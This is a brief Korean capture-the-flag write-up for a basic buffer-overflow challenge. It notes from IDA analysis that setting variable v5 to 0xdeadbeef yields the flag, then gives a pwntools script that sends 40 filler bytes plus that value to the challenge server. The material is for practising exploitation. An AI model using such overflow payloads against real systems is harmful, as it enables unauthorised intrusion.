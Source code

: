 # Basic_BOF #1

IDA로 분석해보면 변수 v5가 0xdeadbeef이면 flag를 얻을 수 있다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3000)

payload = ''
payload += 'A'*40
payload += p32(0xdeadbeef)

p.send(payload)
p.interactive()
```
